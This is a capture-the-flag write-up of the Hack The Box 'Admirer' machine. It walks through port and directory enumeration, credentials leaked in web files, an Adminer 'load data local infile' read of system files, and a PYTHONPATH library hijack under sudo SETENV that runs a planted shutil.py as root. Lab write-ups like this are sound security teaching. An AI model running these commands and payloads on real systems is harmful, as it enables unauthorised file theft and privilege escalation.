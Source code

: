 ```yaml
---
title: Admirer HTB Writeup
date: '2020-09-27 18:00:00'
author: fuxsocy
description: Admirer By Fuxsocy
categories: ["htb"]
banner_img: /img/Admirer.png
---
```


### User
From port scanning I get these ports:

```
Nmap scan report for admirer.htb (10.10.10.187)
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-title: Admirer
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

*FTP* had no anonymous access allowed.
*SSH* won't do much at this moment.

Let's visit http. The homepage is showing different images. First time I do always is look at what web technologies are used with the help of `wappalyzer` script, and then check `robots.txt`. robots.txt is a file containing different rules about search engine crawlers. Often developers `dissalow` admin panels or other directories which they don't want to get shown on search engines. At our case the `robots.txt` file has the following.

![robotstxt](https://user-images.githubusercontent.com/16364370/82129190-f6ccf980-978e-11ea-853b-17f61ccfa4d6.png)

`Disallow: /admin-dir`


Enter this directory `/admin-dir` we have no permissions. Let's try to run gobuster with **txt,pdf,php** file extension.



```
kali@kali:~/Desktop/Boxes/Admieri/Nmap$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.187/admin-dir/ -x txt,php,pdf,php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.187/admin-dir/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php,pdf
[+] Timeout:        10s
===============================================================
2020/05/16 16:10:42 Starting gobuster
===============================================================
/contacts.txt (Status: 200)
```

Visiting contacts.txt file we have some accounts names.


But nothing more on that and It took long time, so I try to run some other wordlists and end up finding another file `credentials.txt` from using big.txt provided from SecList.

![credentials](https://user-images.githubusercontent.com/16364370/82129410-8de68100-9790-11ea-9be7-fa1c67ce94c5.png)


This file has credentials on it. I will use the ftp username and password to download all the files inside ftp using `mget *`.

I end up with these two files.

```
kali@kali:~/Desktop/Boxes/Admieri/Nmap/files$ ls -la
total 5160
drwxr-xr-x 2 kali kali    4096 May 16 16:21 .
drwxr-xr-x 3 kali kali    4096 May 16 16:21 ..
-rw-r--r-- 1 kali kali    3405 May 16 16:21 dump.sql
-rw-r--r-- 1 kali kali 5270987 May 16 16:21 html.tar.gz
```

By untaring the file I get maybe all the files inside the webserver :D. There are some interesting directories and files too.

These were the things I found in these files:
* index.php: `                        $username = "waldo";
                        $password = "]F7jLHw:*G>UPrTo}~A"d6b";
`

* utility-scripts/db_admin.php: `  $servername = "localhost";
  $username = "waldo";
  $password = "Wh3r3_1s_w4ld0?";
` also I juicy comment `  // TODO: Finish implementing this or find a better open source alternative
`

Tried to use every password and username found in `contacts` and `credentials` but nothing worked against ssh. Because of that comment on db_admin.php file I am going to gobuster again but this inside utility-scripts directory.

```
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://10.10.10.187/utility-scripts/ -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.187/utility-scripts/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/05/16 18:03:29 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/adminer.php (Status: 200)
```

Found it `adminer.php` this is the alternative. Search about this one I found an exploit :D.

https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool

All I need to do is setup a sql server with a database and a table and then give it permissions to receive requests from the box ip and then login to my own sql server in order to load files on the box server. I wouldn;t give much detail on this one but you can look into this site: https://easyengine.io/tutorials/mysql/remote-access/. Make sure to create a table in order to use it as a way to store out extracted files.

You can go to *SQL COMMAND* and then enter this command 
`load data local infile '/etc/passwd' into table test fields terminated by "\n";` 

Test is the table name, and /etc/passwd is the path to the file we want to get. Trying to get that file gives an error. After trying I get the file `index.php`

![index](https://user-images.githubusercontent.com/16364370/82131723-2cc9a800-97a6-11ea-80e3-c8d64c4eb36a.png)

But this time the file has different password. And this is the same used at the time we load the website because it connect to the mysql server.

`$username = "waldo"; $password = "&<h5b~yK3F#{PaPB&dA}{H>"; $dbname = "admirerdb";`

Trying that password with ssh and we are logged in :D.

### Root

```
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
waldo@admirer:~$ 
```

Nice, looking into the script contents I can't abuse anything. But at the same directory is a file *backup.py* which is called from the admin_tasks.sh script we have permission to run as root.

```
waldo@admirer:/opt/scripts$ sudo -u root /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
waldo@admirer:/opt/scripts$

```

backup.py script has this contents:

```
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

 * `If we had write permissions on the same directory we would create a file named shutil.py and add malicious code inside but we don't have any permission.`

But I found this one about library hijackin, after thinking about which directories do python check to load the libraries. This can be shown with this command.

```
waldo@admirer:/opt/scripts$ python3 -c "import sys; print(sys.path)"
['', '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
waldo@admirer:/opt/scripts$
```
This can be changed by this command. `export PYTHONPATH=/tmp/evilpath/`

```
waldo@admirer:/opt/scripts$ export PYTHONPATH=/tmp/evilpath/
waldo@admirer:/opt/scripts$ python3 -c "import sys; print(sys.path)"
['', '/tmp/evilpath/', '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
waldo@admirer:/opt/scripts$
```

So python will also check for the library `shutil` on that directory. So now what we do is create a file `shutil.py` inside that directory with these contents:

```
import os

os.system("cat /root/root.txt > /tmp/evilpath/roots.txt")
```

Now the last step is to execute sudo to run script /opt/scripts/admin_tasks.sh as root user.

But we did export only on the non root user, export is like a variable inside out shell. But if we run the script as root, the root user won't have that `'variable'`

Fortunately we can do this with the sudo command straightforward.

`sudo "PYTHONPATH=$PYTHONPATH /opt/scripts/admin_tasks.sh we give it also to the root user which then executes our file at /tmp/evilpath/`

This get the content of our PYTHONPATH we previously added and then give it to the same variable but for the root user. After that we have the root flag. 

It is better to add a reverse shell instead, or add your own public key on the /root/.ssh/.


